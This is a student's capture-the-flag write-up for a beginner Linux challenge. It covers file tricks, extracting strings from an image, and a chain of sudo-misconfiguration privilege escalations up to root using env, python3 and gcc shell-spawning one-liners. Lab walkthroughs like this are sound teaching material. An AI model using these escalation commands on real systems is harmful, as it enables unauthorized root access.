 # KCSC Newbie Challenge

So, one of my friends at the university sent me a link to a Facebook post about a CTF challenge for fresher of the KMA CS Club. After nearly 4 hours of playing this challenge (half of the time I went in the wrong way LOL), I finally passed. Here is my write-up on how to solve it.

### Link to post:

[https://www.facebook.com/photo?bid=122765970560556\&set=a.120329284137558](https://www.facebook.com/photo?bid=122765970560556\&set=a.120329284137558)

### Table of Contents

* [Information Gathering](./#Information-Gathering)
* [Flags Discovering - Part 1](./#Flags-Discovering---Part-1)
  * [flag1.txt](./#flag1txt)
  * [flag3\_4](./#flag3\_4)
  * [flag5\_6.png](./#flag5\_6png)
* [Privilege Escalation - `mod`](./#Privilege-Escalation---\`mod\`)
* [Flags Discovering - Part 2](./#Flags-Discovering-Part-2)
  * [flag7.txt](./#flag7txt)
* [Privilege Escalation - `admin`](./#Privilege-Escalation---\`admin\`)
* [Flags Discovering - Part 3](./#Flags-Discovering-Part-3)
  * [flag8.txt](./#flag8txt)
* [Privilege Escalation - `root`](./#Privilege-Escalation---\`root\`)
* [Flags Discovering - Part 4](./#Flags-Discovering-Part-4)
  * [flag2.txt](./#flag2txt)
  * [flag9.txt](./#flag9txt)
  * [flag10.txt](./#flag10txt)
  * [flag5\_6.png (hardcore version)](./#flag5\_6png-hardcore-version)

### Information Gathering

* Connect: `ssh user@chall.kcsc.cf -p XXXXX`, password SSH: `kcsc@123`
* Directory `/home/user`:

```
total 112K
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:22 .bash_history -> /dev/null
-rw-r--r-- 1 user user  220 Oct  4 16:22 .bash_logout
-rw-r--r-- 1 user user 3.7K Oct  4 16:22 .bashrc
drwx------ 2 user user 4.0K Oct  7 15:00 .cache
-rw-r--r-- 1 user user  807 Oct  4 16:22 .profile
-rw-r--r-- 1 root root   28 Oct  4 15:32 flag1.txt
-r-------- 1 root root   36 Oct  4 16:30 flag2.txt
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 flag3_4
-rw-r--r-- 1 root root  47K Oct  4 15:32 flag5_6.png
-r-------- 1 root root   28 Oct  4 15:32 flag9.txt
-r--r--r-- 1 user user  17K Oct  4 16:22 read_flag2'
```

* Directory `/home/user/flag3_4`:

```
total 16K
-rw-r--r-- 1 root root   30 Oct  4 15:32 -
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 .
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 ..
-rw-r--r-- 1 root root   34 Oct  4 15:32 ...  
```

* Directory `/home/mod`:

```
total 28K
drwxr-xr-x 1 mod  mod  4.0K Oct  4 16:31 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 mod  mod   220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 mod  mod  3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 mod  mod   807 Oct  4 16:31 .profile
-r--r----- 1 mod  mod    31 Oct  4 15:32 flag7.txt
```

* Directory `/home/admin`:

```
drwxr-xr-x 1 admin admin 4.0K Oct  7 15:04 .
drwxr-xr-x 1 root  root  4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root  root     9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 admin admin 3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 admin admin  807 Oct  4 16:31 .profile
-rw-r--r-- 1 admin admin    0 Oct  7 15:04 .sudo_as_admin_successful
-r--r----- 1 admin admin   30 Oct  4 15:32 flag8.txt
```

* Directory `/`:

```
bin  boot  dev  etc  flag10.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

### Flags Discovering - Part 1

#### flag1.txt

Simply use the command `cat flag1`, we get the flag: `KCSC{part_1_read_file_4zs0}`

#### flag3\_4

* flag3: Using `ls -lah` to list all the file in `flag3_4` folder, we see a file with the name `-`. Using command `cat ./-`, we get the flag: `KCSC{part_3_read_file_strike}`
* flag4: We can also see that in this folder, there is a file name `...`. Using command `cat ./...`, we get the flag: `KCSC{part_4_read_file_quadra_dot}`

#### flag5\_6.png

* flag6: By checking strings in the image file: `strings flag5_6.png`, we get the flag: `KCSC{part_6_read_me_pls}`
* flag5: There are 2 ways to get this flag:

1. Because we cannot display the png using the terminal without any tool, we must somehow have this file in our computer, which allows us to see the image file. To do so, first, we must copy the image file to the `/tmp` folder to be able to copy this file: `cp flag5_6.png /tmp`. Then, in our machine's terminal, using `scp` command to copy this file to our computer: `scp -P XXXXX user@chall.kcsc.cf:/tmp/flag5_6.png /tmp`. Open this file, we get the flag: `KCSC{part_5_u_know_scp}`
2. At first, I don't remember the `scp` way, so my idea is to get the `root` privilege, then install some tool to read the image's content directly in the terminal. This idea will take a very long time (we must get the `root` privilege first), but it is possible as you will see later.

### Privilege Escalation - `mod`

We return back to `/home` to check how many users are available on this machine. The remaining 2 users are `mod` and `admin`, and each user's `home` folder has a flag file which only that user can open. So, we must somehow "become" those users to be able to read those flag. Checking `sudo -l` for any exploitable vulnerabilities:

```
user@kcsc:~$ sudo -l
Matching Defaults entries for user on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on kcsc:
    (root) NOPASSWD: /home/user/read_flag2
    (mod) NOPASSWD: /usr/bin/env
```

Searching on [gtfobin](https://gtfobins.github.io), we see that `env` binary can be used for privilege escalation, as this can be run as `mod` user without requiring any password. So, we try to spawn a shell with `mod` privilege using `env`: `sudo -u mod env /bin/bash`, and now we have become `mod`!

### Flags Discovering - Part 2

#### flag7.txt

Now, we can simply `cat flag7.txt` to get the flag: `KCSC{part_7_wow_u_r_quite_gud}`

### Privilege Escalation - `admin`

The only user left before getting `root` is `admin`. Checking `sudo -l` for any exploitable vulnerabilities:

```
mod@kcsc:~$ sudo -l
Matching Defaults entries for mod on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mod may run the following commands on kcsc:
    (admin) NOPASSWD: /usr/bin/python3
```

The `python3` binary can also be used for privilege escalation, so we spawn a shell with `admin` privilege using this binary: `sudo -u admin python3 -c 'import os; os.system("/bin/sh")'`.

### Flags Discovering - Part 3

#### flag8.txt

Now, we can simply `cat flag8.txt` to get the flag: `KCSC{part8_hmm_u_know_env_sh}`

### Privilege Escalation - `root`

Final target! Checking `sudo -l` for any exploitable vulnerabilities:

```
$ sudo -l
Matching Defaults entries for admin on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on kcsc:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/gcc
```

Again, `gcc` can be used to spawn a shell with `root` privilege: `sudo -u root gcc -wrapper /bin/sh,-s .`.

### Flags Discovering - Part 4

#### flag2.txt

At the `/home/user` folder, this file along with `flag9.txt` is `root` only. Now, as we become `root`, we can `cat flag2.txt` to get the flag: `KCSC{part_2_hello_pls_not_get_root}`

#### flag9.txt

Like `flag2.txt`, `cat flag9.txt` give us the flag: `KCSC{part_9_r_u_vim_lord??}`

#### flag10.txt

Using `find` command to find this file: `find / -name flag10.txt 2>/dev/null`, we found this file at `/` directory. `cat flag10.txt` give us the final flag: `KCSC{part_10_tuong_vy_la_con_nao_the???}`

#### flag5\_6.png (hardcore version)

As I mention before, we can still get this flag when become `root` without using `scp`. [chafa](https://hpjansson.org/chafa/) is a tool that allow us to see the content of image file directly on the terminal. Install this tool and see the image, we can still get the same flag as the `scp` way:

```
sudo apt-get install chafa
chafa flag5_6.png
```
